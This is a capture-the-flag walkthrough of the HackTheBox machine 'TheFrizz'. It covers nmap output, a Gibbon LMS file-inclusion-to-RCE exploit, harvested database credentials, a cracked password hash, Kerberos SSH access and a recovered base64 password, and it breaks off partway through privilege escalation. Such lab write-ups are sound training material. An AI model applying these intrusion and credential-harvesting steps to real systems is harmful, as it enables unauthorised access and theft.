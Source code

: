 ![image](https://github.com/user-attachments/assets/b18d55ca-14a8-490a-97e6-2e9231fc8eb8)

> first enum with nmap

```shell
# Nmap 7.94SVN scan initiated Wed May 21 15:09:10 2025 as: /usr/lib/nmap/nmap --privileged -sCV -T4 -p22,53,80,88,135,139,389,445,464,593,636,3268,3269,9389 -Pn -oN 155_service.txt 10.129.90.155
Nmap scan report for 10.129.90.155
Host is up (0.21s latency).

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
|_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-21 20:09:32Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Hosts: localhost, FRIZZDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-21T20:09:44
|_  start_date: N/A
|_clock-skew: 6h00m13s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 21 15:10:13 2025 -- 1 IP address (1 host up) scanned in 62.97 seconds
```

> add the `frizzdc.frizz.htb` to `/etc/hosts` file

![image](https://github.com/user-attachments/assets/414ff2af-a7ae-4950-8c1f-fc7cf91d8c99)

> checking out the web service

![image](https://github.com/user-attachments/assets/4cefd179-0489-4ae0-be5c-ca4608ff3c5f)

opening the web app on browser we can see it runs an education platform. 

![image](https://github.com/user-attachments/assets/1757a8cc-aa0f-47e6-b707-3de0ada637b7)

navigating to the staff login page, we can see it is running `gibbon v25.0.0`. 

![image](https://github.com/user-attachments/assets/6b364863-e852-4c9e-b877-091e7b60b996)

lil bit of research shows the gibbon version is vuln to lfi (local file inclusion) vulnerability.

![image](https://github.com/user-attachments/assets/ce8bae4a-fdf1-4730-b6e4-252fcaeb9f66)

we can see the endpoint for lfi is `http://frizzdc.frizz.htb/Gibbon-LMS/index.php?q=lfi`. we using gibbon.sql, and we can see the info about the sql db. 

> found an exploit on github to trigger RCE

![image](https://github.com/user-attachments/assets/d345733f-b6a9-4b0e-9f75-7e4c7e1e8869)

let's clone and run the exploit 

![image](https://github.com/user-attachments/assets/3fe86a84-377e-449c-aa09-e59c35eba698)

ran the exploit and we got RCE. 

![image](https://github.com/user-attachments/assets/c8cedad4-8983-4833-8f10-176023db8f1a)

we check the dirs for files, we can see internal files. let's play around, pop shell 

![image](https://github.com/user-attachments/assets/438814dc-9384-4b49-b78c-0cb30399c771)

checking the conifg.php file, we got creds. 

```sql
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
```

![image](https://github.com/user-attachments/assets/930dcbd5-c2b3-4907-9156-81c8a9a92ec9)

Pop a revershell.



## Privilege Escalation


> enumerating mysql

![image](https://github.com/user-attachments/assets/b187bb46-aa6f-4718-9d4f-57db53cfe8d6)

using the creds we got from `config.php`. we got user `frizzle` password and salt. 

![image](https://github.com/user-attachments/assets/33121bbe-d430-400f-a025-d1624423d780)

check what hash it is, we can see it is `sha-256` with the salt 

```shell
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/HTB/thefrizz]
└─$ cat hash.txt 
067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489
```

![image](https://github.com/user-attachments/assets/769f980a-a009-498f-a3e1-ec948ef8bde2)

cracked the hash to `Jenni_Luvs_Magic23`. 

![image](https://github.com/user-attachments/assets/c4f86167-5050-4db7-b028-032ffa76526e)

login the webpage using the cracked creds `f.frizzle:Jenni_Luvs_Magic23`.

```shell
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/HTB/thefrizz]
└─$ ssh f.frizzle@10.129.206.246     
f.frizzle@10.129.206.246: Permission denied (gssapi-with-mic,keyboard-interactive).
```
ssh was enabled, trying to login ssh failed. getting some error 

![image](https://github.com/user-attachments/assets/5237dfae-262d-499c-8681-0229204271e7)

Mehnnnnn after hours of research, almost 24hours of stakoverflow, unixoverflow. gpt 😂, we got shell as user `f.frizzle`

> steps to getting shell as user `f.frizzle`.

```
[libdefaults]
    default_realm = FRIZZ.HTB

[realms]
    FRIZZ.HTB = {
        kdc = 10.129.197.79
        admin_server = 10.129.197.79
    }

[domain_realm]
    .frizz.htb = FRIZZ.HTB
    frizz.htb = FRIZZ.HTB
```

first edit your `/etc/krb5.conf` file. if you don't have install using 

```
sudo apt install krb5-user
```

> After setting up your krb5.conf file

```shell
kinit f.frizzle@FRIZZ.HTB

ssh f.frizzle@10.129.197.79
```
we got shell as user `f.frizzle`.

![image](https://github.com/user-attachments/assets/cfc339e4-7f0a-4ab5-ae54-b4d8ba1a7a75)

running winpeas.exe, we got to see there's a UAC. let's try bypass it. 

![image](https://github.com/user-attachments/assets/19d64fea-f4b0-4956-8c26-67249692f0d9)

After hours of trials and errors, looking for deleted files, we can got `RE2XMEG.7z` file. copied it to user `f.frizzle` directory. 

> command ran

```powershell
#checking the r.bin dir for user f.frizzle sid
Get-ChildItem -Path "C:\`$Recycle.Bin" -Force

#checking user sid dir
Get-ChildItem -Path "C:\`$Recycle.Bin\S-1-5-21-2386970044-1145388522-2932701813-1103" -Force

#copy the file to user desktop directory
Copy-Item -Path 'C:\$Recycle.Bin\S-1-5-21-2386970044-1145388522-2932701813-1103\$RE2XMEG.7z' -Destination "C:\Users\f.frizzle\Desktop\recover.7z"
```

![image](https://github.com/user-attachments/assets/64cb5457-36a1-4657-b950-3c6f60a7afd5)

download the file using scp 

![image](https://github.com/user-attachments/assets/f4be17af-2923-4a07-9030-108dcd8cfb81)

Extracting the content of the files. can checking the conf path, found a cred, looks like base64 enc 

![image](https://github.com/user-attachments/assets/a1eee2cb-eb84-4f35-a732-eef39b289c2e)

decode the enc to get pass `!suBcig@MehTed!R`.

![image](https://github.com/user-attachments/assets/22ac59cd-9bc5-439f-95e7-ec9980f99e94)

trying the knit with different users, it failed and got accepted for user `m.schoolbus`. let's ssh 









